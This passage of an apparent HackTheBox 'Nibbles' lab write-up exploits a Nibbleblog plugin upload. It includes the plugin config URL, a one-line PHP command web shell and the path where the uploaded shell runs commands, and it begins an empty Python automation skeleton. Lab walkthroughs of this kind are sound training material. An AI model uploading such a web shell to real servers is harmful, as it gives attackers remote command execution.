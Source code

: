 ![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-13-HackTheBox-Nibbles/2021-12-13-HackTheBox-Nibbles%2007:05:49.png)

We go to

```
http://10.10.10.75/nibbleblog/admin.php?controller=plugins&action=config&plugin=my_image
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-13-HackTheBox-Nibbles/2021-12-13-HackTheBox-Nibbles%2007:08:32.png)

And we upload a simple cmd php

```php
<?php system($_REQUEST['cmd']); ?>
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-13-HackTheBox-Nibbles/2021-12-13-HackTheBox-Nibbles%2007:10:36.png)

We got some errors, but the image was uploaded

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-13-HackTheBox-Nibbles/2021-12-13-HackTheBox-Nibbles%2007:10:56.png)

We visit the place where it was uploaded

```
10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php
```

And we get RCE

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-13-HackTheBox-Nibbles/2021-12-13-HackTheBox-Nibbles%2007:11:43.png)

And here we got the reverse shell

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-13-HackTheBox-Nibbles/2021-12-13-HackTheBox-Nibbles%2007:17:39.png)

Now let's easily automate it

# Auto Reverse Shell

We'll use our skeleton

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```
